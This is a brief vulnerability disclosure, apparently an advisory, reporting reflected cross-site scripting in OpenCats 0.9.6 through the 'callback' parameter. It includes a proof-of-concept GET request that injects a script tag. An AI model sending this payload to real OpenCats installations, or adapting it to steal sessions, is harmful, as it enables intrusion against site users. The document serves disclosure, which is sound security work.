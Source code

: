 # Cross Site Scripting vulnerability in the OpenCats 'callback'.


OpenCats version 0.9.6 PHP7.2 suffers from reflected XSS vulnerability.
This allows attackers arbitrary JavaScript injection, which compromises secure session between client and server.


### PoC

``` GET /index.php?m=toolbar&callback=<script>alert`xss`</script>&a=authenticate ```

![XSS](https://user-images.githubusercontent.com/57464251/192359649-990ad881-5fd0-46d5-ae03-724d57bde8c3.png)
